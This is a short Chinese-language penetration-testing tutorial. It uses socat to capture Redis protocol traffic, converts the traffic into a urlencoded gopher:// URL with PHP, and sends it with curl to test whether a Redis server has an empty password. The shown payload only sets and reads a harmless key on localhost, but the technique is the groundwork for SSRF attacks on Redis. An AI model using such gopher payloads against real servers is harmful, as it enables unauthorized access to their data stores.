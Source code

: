 ## 运用gopher 和 socat 进行网络渗透

---

socat是一个多功能的网络工具，名字来由是“Socket CAT”，可以看作是netcat的N倍加强版，socat 的官方网站：
[http://www.dest-unreach.org/socat/](http://www.dest-unreach.org/socat/)
网上搜到一个详细的[pdf文档](http://run.qixingyue.com/gopher/socat.pdf)

* 安装办法:

`$ yum install socat -y `

* 映射服务端口，本实例用redis举例，测试的是redis 空密码:

`$ socat -v tcp-listen:6377,fork tcp4:localhost:6379`

* 按照redis的方式访问6377端口，进行set,get 操作，*get到set的值，则认为是空密码*

`$ redis-cli -h localhost -p 6377 `
`$ set a hihackworld`
`$ get a `

* 在之前的socat命令运行中获得输入:

<pre>
*3\r
$3\r
set\r
$1\r
a\r
$11\r
hihackworld\r
*2\r
$3\r
get\r
$1\r
a\r
</pre>

* 运用任何一种熟悉的语言,比如php，对输入进行urlencode:
<pre>
$message = "*3\r
$3\r
set\r
$1\r
a\r
$11\r
hihackworld\r
*2\r
$3\r
get\r
$1\r
a\r
";
$gopherstr = "gopher://localhost:6379/_" . urlencode($message) ;
echo $gopherstr;
</pre>

* 运用curl组合gopher串进行测试:

`$ curl -s <$gopherstr>`

* 获取到输出该网络流的输出:

<pre>
+OK
$11
hihackworld
</pre>
